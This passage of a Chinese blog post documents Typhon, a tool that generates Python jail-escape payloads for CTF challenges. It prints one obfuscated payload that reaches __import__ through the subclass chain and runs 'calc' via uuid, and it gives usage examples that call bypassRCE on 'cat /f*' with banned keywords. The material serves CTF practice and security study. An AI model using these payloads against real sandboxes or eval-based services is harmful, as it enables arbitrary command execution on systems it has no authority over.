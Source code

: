 运行，稍等片刻即可：

![image](https://img2024.cnblogs.com/blog/3392505/202509/3392505-20250920214335017-414163724.png)

得解：

```python
lit.__class__.__subclasses__(lit.__class__)[0].register.__globals__[lit(dic(__builtins__=0))[0]][lit(dic(_=0))[0].__add__(lit(dic(_=0))[0]).__add__(lit(dic(i=0))[0]).__add__(lit(dic(m=0))[0]).__add__(lit(dic(p=0))[0]).__add__(lit(dic(o=0))[0]).__add__(lit(dic(r=0))[0]).__add__(lit(dic(t=0))[0]).__add__(lit(dic(_=0))[0]).__add__(lit(dic(_=0))[0])](lit(dic(uuid=0))[0])._get_command_stdout(lit(dic(calc=0))[0])
```

本地运行验证：

![image](https://img2024.cnblogs.com/blog/3392505/202509/3392505-20250920214426491-312654626.png)


## Q&A

- 何时`import Typhon`？

一定要将行`import Typhon`放在`Typhon`内置绕过函数的上一行（即使你患有PEP-8强迫症）。否则，`Typhon`将无法通过栈帧获取当前的全局变量空间。

**Do:**
```python
def safe_run(cmd):
    import Typhon
    Typhon.bypassRCE(cmd,
    banned_chr=['builtins', 'os', 'exec', 'import'])

safe_run('cat /f*')
```

**Don't:**
```python
import Typhon

def safe_run(cmd):
    Typhon.bypassRCE(cmd,
    banned_chr=['builtins', 'os', 'exec', 'import'])

safe_run('cat /f*')
```

- 为什么需要使用与题目相同的python版本？

Pyjail中存在一些通过索引寻找对应object的gadgets（如继承链）。继承链的利用随着索引变化很大。因此，请务必确保Typhon的运行环境与题目相同。

**无法保证？**

是的，大多数题目都不会给出对应的python版本。因此，**Typhon会在使用涉及版本的gadgets时做出提示**。  

![image](https://img2024.cnblogs.com/blog/3392505/202509/3392505-20250920214521541-2073813862.png)

这种情况下往往需要CTF选手自己去找题目环境中该gadgets需要的索引值。  
